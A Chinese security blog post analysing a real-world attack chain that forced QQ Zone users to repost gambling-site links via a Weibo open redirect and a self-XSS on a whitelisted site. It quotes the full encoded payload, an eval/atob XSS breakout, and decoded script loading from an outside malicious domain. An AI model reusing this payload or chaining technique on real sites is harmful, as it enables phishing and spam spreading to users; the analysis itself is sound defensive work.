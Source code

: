 ```yaml
---
title: QQ空间流氓转发分析
abbrlink: 6862
date: 2019-09-03 16:53:47
categories: 网络安全
tags:
- 漏洞分析
---
```


*本文原发于先知社区 <https://xz.aliyun.com/t/6238> , 博客转自本人仅做备份用途*

## 写在之前

最近遇到多位老哥在骂,qq空间的链接一点就转发了一个封面为色情图片,内容为菠菜站的链接.我就好奇这难道是qq空间的XSS蠕虫?

BAT关键业务出了xss在9102年也不算小事情了,至少圈内会炸锅.但是一直没消息,直到我的好友也遭到了攻击.

好奇之下,抓了个包分析.发现这是个有趣的攻击链,至少我没见过这种攻击方式.由一系列漏洞组成.

中间一段时间忘了这事,前两天翻到给微博src提交的漏洞被打回.

![1](1.png)

最后一部分转发的截图和代码忘了保留,见谅.不过这也是一个有趣的绕过qq安全机制的案例.

(貌似之前看到过有人写过分析了,昨天去找的时候又没找到,于是我又自己分析了一遍)

## 分析

### payload

```
https%3A%2F%2Fweibo.cn%2Fsinaurl%3F_wv%3D1027%26cmd%3Dplay%26u%3Dhttps%253A%252F%252Fwww.whitedomin.com%252Fmember%252Findex.php%253Fgourl%253D%25252F%25252Fst.duanwenxue.com%25252Fpost-624.html%252522%25257d%252529%25257d%25252bwindow%25255b%252522eval%252522%25255d%252528atob%252528%252522ZG9jdW1lbnQud3JpdGUoIjxzY3JpcHQgc3JjPSdodHRwczovL2ltZy5kYWZlaWJsb2cuY29tL3dlYi9pZi5waHAnPjwvc2NyaXB0PiIp%252522%252529%252529%25252bfunction%252528%252529%25257b%2524.post%252528%25257b1%253A%252522%2526r%253D1561387991%2526business%253D%2523123
```

一步一步来分析.

### 微博任意url跳转

已经提交给微博并被驳回,因此公开应该没什么问题.

测试一下,将payload填到浏览器并用bp抓包,可以看到

![1](2.png)

follow redirection 302跳转到了某白名单网站的网站

### 某白名单网站self-xss

(虽然该漏洞已修复,但还是抹去相关信息)

qq空间的分析链接是有验证的,虽然不知道具体验证机制,但是大致可以猜到是白名单验证.微博显然在白名单内,而且如果是302跳转会迭代验证,直到非302响应状态码.

因此还需要个存在xss漏洞在白名单内的网站.

因此黑产找了一个存在get请求的self-xss的网站,并且通过js再次进行跳转绕过检测机制.

![1](3.png)

```
https://www.whitedomin.com/member/index.php?gourl=%2F%2Fst.whitedomin.com%2Fpost-624.html%22%7d%29%7d%2bwindow%5b%22eval%22%5d%28atob%28%22ZG9jdW1lbnQud3JpdGUoIjxzY3JpcHQgc3JjPSdodHRwczovL2ltZy5kYWZlaWJsb2cuY29tL3dlYi9pZi5waHAnPjwvc2NyaXB0PiIp%22%29%29%2bfunction%28%29%7b$.post%28%7b1:%22&r=1561387991&business=#123
```

xss漏洞存在于该网站站内跳转的gourl参数,再次经过302跳转后同时指向了self-xss的js代码.

```
"})}+window["eval"](atob("ZG9jdW1lbnQud3JpdGUoIjxzY3JpcHQgc3JjPSdodHRwczovL2ltZy5kYWZlaWJsb2cuY29tL3dlYi9pZi5waHAnPjwvc2NyaXB0PiIp"))+function(){$.post({1:"&r=1561387991&business=#123
```

base64解码:

`document.write("<script src='https://img.dafeiblog.com/web/if.php'></script>")`

可以看到,再次跳转向了第三方的网站,绕过了腾讯的检测机制.

### 恶意域名执行转发

(因为当时在hw,只抽了几分钟大致看了一下,以为保留了该页面的恶意js代码,后来找的时候发现并没有,抱歉)

(所以这一部分主要根据我的记忆以及猜想)

该恶意网站伪造了腾讯拦截页面.

![1](4.png)

因为腾讯的拦截页面并不显示url,所以普通用户很难发现是伪造的.

该页面下镶嵌有恶意js代码,只有30-40行,大致是两个XHR请求的函数.

猜测功能应该是跳转到博彩网站,以及请求腾讯空间转发接口.

这时候手机端按返回键回到qq空间,就会有个弹窗,提示是否转发.选择不转发还会跳出来,强行结束qq进程才能停止弹窗.

听说低qq版本或是低安卓版本没有这个提示框,会直接转发,(我并没有验证过)

## 小结

利用链是这样的:

微博任意url跳转 --- 其他白名单内网站self-xss --- 跳转至恶意网站执行恶意js 

这种绕过方法算是self-xss的新用法,用作绕过某些存在分享内容安全检测的应用.(至少我没见过)

因为恶意网站js代码没有保存.因此并不知道是如何实现的qq空间转发功能以及无限循环转发弹窗.

因为过程中并没有传输用户相关信息,只能猜测是qq提供了转发的api以供第三方应用调用,导致被黑产利用.

可以参考下这两篇较早的文章,虽然利用思路完全不一样.

<https://www.freebuf.com/vuls/75711.html>

<https://www.freebuf.com/column/144879.html>